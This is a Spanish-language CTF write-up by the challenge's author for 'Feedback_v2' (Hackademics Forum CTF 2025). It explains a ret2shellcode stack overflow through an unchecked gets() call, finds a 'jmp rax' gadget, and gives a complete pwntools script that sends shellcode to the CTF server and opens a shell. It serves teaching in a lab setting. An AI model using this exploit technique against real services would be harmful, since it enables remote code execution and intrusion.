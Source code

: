 ```yaml
---
layout: post
title: Feedback_v2 HFCTF 2025
comments: true
categories: [Pwn, Writeups, HFCTF2025]
---
```


Aquí traigo el tercer reto que implementé para la categoría de Pwn para el [Hackademics Forum CTF](hackademics-forum.com). Este es el ejercicio que menos solves tuvo en Pwn aunque tampoco es realmente difícil.

# Overview

En este caso se trata de un *ret2shellcode*, en el que saltaremos a un código que ejecuta una shell en el stack.

<br>
![Image]({{ site.baseurl }}/images/posts/HFCTF.png){:width="250px"}
<br>

# Reconocimiento

Aunque no es necesario, si descompilamos veremos las siguientes funciones:

```c
void comment() {
    char buffer[200];
    printf("Deja una reseña sobre nuestro CTF: "); flush_buffers();
    gets(buffer);
}

int main() {
    banner();
    comment();
    return 0;
}
```

Vemos que ya no hay función flag. Sin embargo, disponemos de una llamada a *gets* en comment, con longitud suficiente para albergar un shellcode en el stack. Con lo que podemos desbordar el rsp e insertar saltar a dicho código.

Deberemos primero encontrar un gadget que nos permita saltar, podemos buscarlo con *ROPGadget*:

```bash
ROPgadget --binary feedback_v2 | grep jmp

[...]
0x00000000004010cc : jmp rax
[...]
```

Ese `jmp rax` debería servirnos. Además debemos buscar el offset hasta rsp de igual forma que en la [versión 1 del reto]({% post_url 2025-04-6-Feedback-HFCTF %}).

# Explotación

Para resolverlo debemos explotar el servidor, para ello utilizaremos este script:

```python
#!/bin/python3

from pwn import *

binary = '../gen/feedback_v2'
#elf = ELF(binary)

# p = remote('direccion.ip', puerto)
p = remote("ctf.hackademics-forum.com", 51425)

#p=process(binary)

# p = gdb.debug(binary, '''
#     break *comment+61
#     continue
# ''')

#0x00000000004010cc: jmp rax;
jmp_addr = 0x4010cc

#0x0000000000401016 : ret
ret = 0x401016

shellcode = asm(shellcraft.amd64.linux.sh(),arch='amd64')

offset = 216
padding = b'\x90' * (offset-len(shellcode))

payload = shellcode + padding + p64(jmp_addr)

#payload = b'\x90'*(offset) + p64(0x401690) + p64(jmp_addr)

print(payload)

log.info("Enviando exploit...")

p.sendline(payload)

p.interactive()
```